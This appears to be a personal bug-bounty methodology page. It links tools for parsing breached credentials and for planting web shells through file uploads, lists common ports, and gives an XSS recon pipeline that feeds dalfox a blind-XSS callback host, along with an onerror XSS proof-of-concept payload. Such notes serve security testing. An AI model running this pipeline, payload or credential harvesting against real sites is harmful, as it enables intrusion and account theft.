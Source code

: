 ```yaml
---
description: 'description: For Personal Reference'
---
```


# 🧑‍🏫 My Methodologies

#### Gathering Breached Credentials

* [https://github.com/hmaverickadams/breach-parse](https://github.com/hmaverickadams/breach-parse)

#### file upload vulnerability test

* [https://github.com/epinna/weevely3](https://github.com/epinna/weevely3)

### Common Ports for a web Application:&#x20;

{% code overflow="wrap" %}
```
20, 21, 22, 23, 25, 53, 67, 68, 69, 80, 110, 123, 137, 138, 139, 143, 161, 162, 179, 194, 389, 443, 465, 514, 515, 587, 631, 636, 989, 990, 993, 995, 1080, 1433, 1521, 1723, 3306, 3389, 5432, 5900, 6379, 8000, 8080, 8443, 9000, 9200, 27017, 50000
```
{% endcode %}



**Set domain scope (burpsuite)**

```
.*\.target\.com$
```

#### XSS recon methodology

▶ cat domains.txt | waybackurls > urls

```
cat urls.txt        --> read the file
| kxss              --> filter special characters
| sed 's/=.*/=/'    --> remove everything after = ,add = 
| sed 's/URL: //'   --> remove URL: and white space
| dalfox pipe       --> dalfox tool for xss payload
-b xalgord.xss.ht   --> BXSS payload adder.
```

#### KXSS

The vulnerable parameter for XSS should have Unfiltered : **\[“ ‘ < > $ | ( ) \` : ; { } ]**

**Payload:**

```
"><img%20src=x%20onerror="alert(%27POC%20By%20Xalgord%27)"
```
